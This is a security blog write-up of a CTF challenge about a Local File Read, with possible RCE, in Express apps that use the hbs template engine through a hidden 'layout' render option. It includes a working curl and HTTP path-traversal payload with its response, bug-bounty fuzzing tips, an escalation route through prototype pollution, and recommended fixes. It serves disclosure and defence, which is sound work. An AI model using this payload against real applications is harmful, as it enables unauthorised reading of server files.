

The Secret Parameter, LFR, and Potential RCE in NodeJS Apps

TL;DR
If you are using ExpressJs with Handlebars as templating engine invoked via hbs view engine, for Server Side Rendering, you are likely vulnerable to Local File Read (LFR) and potential Remote Code Execution (RCE).
#BugBountyTip💰
- If the target is responding with
X-Powered-By: Expressand there is HTML in responses, it’s highly likely that NodeJs with server-side templating is being used. - Add
layoutin your wordlist of parameter discovery/fuzzing for GET query or POST body. - If the arbitrary value of
layoutparameter added is resulting in500 Internal Server ErrorwithENOENT: no such file or directoryin body, You have hit the LFR.
Details
About more than a week back, I stumbled upon a critical Local File Read (LFR) security issue which had the potential to give Remote Code Execution in a fairly simple ~10 lines of NodeJS/ExpressJs code which looked like the following:
1 | var express = require('express'); |
The whole source can be found here.
If you are even a little bit familiar with NodeJs Ecosystem and have written at least your first Hello World endpoint in ExpressJs, you will certify that this is clearly straightforward and innocent code.
So after getting surprised and disillusioned by the security bug, I remembered that It’s indeed called Dependency Hell. To be honest, I should not have been that surprised.
The betrayal by in-built modules, dependencies, and packages have been the reason to introduce numerous security bugs. This is a re-occurring theme in software security anyway.
To check out if this is a known issue or not, I created a CTF challenge and shared it with many of my talented friends belonging to multiple community forums of Web Security, Node, Backend Engineering, CTFs, and BugBounty.
Node/Express.js Web Security Challenge:https://t.co/vjOUcxHdVx
— CaptainFreak (@0xCaptainFreak) January 15, 2021
Very short code: https://t.co/gkjcZ24YUt
Can you find the flag: 𝗰𝗳𝗿𝗲𝗮𝗸{.*}#nodejs #javascript #JS #ctf #bugbounty
Turns out this was not known, Even after giving the whole source code of the challenge, only 4 people were able to solve it (all CTFers 🥳):
Congrats to all the solvers 🎊 and thanks a lot to everybody who tried out the challenge.
For the people who still wanna try out, I plan to keep the Profiler Challenge up for one more week. Stop Reading and check it out now!
Challenge Solution
1 | curl -X 'POST' -H 'Content-Type: application/json' --data-binary $'{\"profile\":{"layout\": \"./../routes/index.js\"}}' 'http://ctf.shoebpatel.com:9090/' |
HTTP request:1
2
3
4
5
6
7
8
9
10POST / HTTP/1.1
Host: ctf.shoebpatel.com:9090
Content-Length: 48
Content-Type: application/json
{
"profile": {
"layout": "./../routes/index.js"
}
}
HTTP Response (content of routes/index.js):1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 463
var express = require('express');
var router = express.Router();
const flag = "cfreak{It's called Dependency Hell for a reason! (https://github.com/pillarjs/hbs/blob/master/lib/hbs.js#L122)}"
/* GET home page. */
router.get('/', function(req, res, next) {
res.render('index')
});
router.post('/', function(req, res, next) {
var profile = req.body.profile
res.render('index', profile)
});
module.exports = router;
Flag:1
"cfreak{It's called Dependency Hell for a reason! (https://github.com/pillarjs/hbs/blob/master/lib/hbs.js#L122)}"
That’s It! What the heck, right? You might be thinking, what even is this layout parameter? and where is it even coming from. Soo out of context!
If you like Code Review, why don’t you find out? It will be a good code review exercise.
Secret layout parameter
To find out from where it is coming, we can track the flow of our input from Source to Sink till we find out the reason why LFR is happening.
Source (Line 3):
1 | router.post('/', function(req, res, next) { |
Let’s follow the path this profile object argument takes.
Definition of res.render in ExpressJs. Link
1 | res.render = function render(view, options, callback) { |
“index” argument became view & our profile argument became the options parameter which became opts and got flown into app.render
Definition of req.app.render in ExpressJs. Link
1 | app.render = function render(name, options, callback) { |
view.render in ExpressJs. Link
1 | View.prototype.render = function render(options, callback) { |
In View class, this.engine becomes an instance of hbs in our case and this.path = rootViewDir + viewFilename. The options argument is our profile.
Sink: Instantiation in hbs. Link
I will take the liberty here and modify the code a bit to make it linear and easy to understand, but you can check out the original version on Github.
1 | function middleware(filename, options, cb) { |
We can stop analysing here, as you can see on Line 22 we effectively read from the Root Views Dir + layout and pass it to handlebars.compile which gives us the HTML after compiling the given file which we completely control (Except the extension cause it’s added explicitly from the config to the path if not provided already. Line. 12).
Hence the LFR, we can read any files with extensions.
RCE 💣
As the templating is involved, we do have a strong potential for RCE. It has the following pre-requisites though:
- Through the above LFR read
./../package.json. - See the version of hbs being used, it should be <=
4.0.3. Because after this version, thehbsteam started usingHandlebars.js of version >= 4.0.14, Commit Link. - In Handlebars below this version, it was possible to create RCE payloads. There is an awesome writeup on this by @Zombiehelp54 with which they got RCE on Shopify.
- And you should have a functionality of file upload on the same box with a known location, which is quite an ask considering everybody uses blob storage these days, but we never know 🤷♂️
With above fulfilled, you can write a handlebars template payload like below to get RCE:
1 | <!-- (by [@avlidienbrunn](https://twitter.com/avlidienbrunn)) --> |
Fix 🤕
Easy fix would be to stop using the code anti-pattern shown in the above example like below:
1 | ❌ res.render('index', profile) |
v/s
1 | ✅ res.render('index', { profile }) |
which I think many devs use already so that they can be more descriptive in templates with the usage of just “{{name}}” vs “{{profile.name}}”.
But think for a second again, is the above code safe? Yea sure, we don’t have a way to provide layout in the options argument to res.render anymore. But is there any way to still introduce the culprit layout parameter?
Prototype Pollution!
It would be ignorant if we don’t mention proto pollution in a Js/NodeJs Web Security writeup 🙃 !
Readers who are unaware of proto pollution, please watch this awesome talk from Olivier Arteau at NorthSec18.
As you can see, even the most common pattern (res.render('template', { profile })) of passing objects to render function is not safe, If the application has prototype pollution at any place with which an attacker can add layout to prototype chain, the output of every call to res.render will be overwritten with LFR/RCE. So we have DoS-ish LFR/RCE! With presence of exploitable proto pollution, this becomes quite a good gadget plus becomes unfixable unless we fix proto pollution.
Solid Fix
- First fix proto pollution if you are vulnerable to it.
- and you can remove the
layoutkey from the object or do whatever to stop it from reaching that vulnerable Sink.
Let me know what you think should be the proper fix?
Above I have described my observations on a potentially critical vulnerability in the Setup of NodeJS + Express + HBS.
As this setup is pretty common, I wanted this writeup to be out there. The handlebars engine particularly is very popular due to it’s support of HTML symantics. Everytime I work on a side-project, I quickly setup the boilerplate code with quick one liner of express-generator cli express --view hbs and this creates the exact same stack the above issue is talking about. Don’t know how many time I might have used that code line myself. I plan to do the same kind of review for other view engines that express supports (ejs, hjs, jade, pug, twig, vash).
Anyways, thanks for Reading! If something is erroneous, please let me know, would love to have a constructive discussion.
It’s called Dependency Hell for a reason!
Best,
CF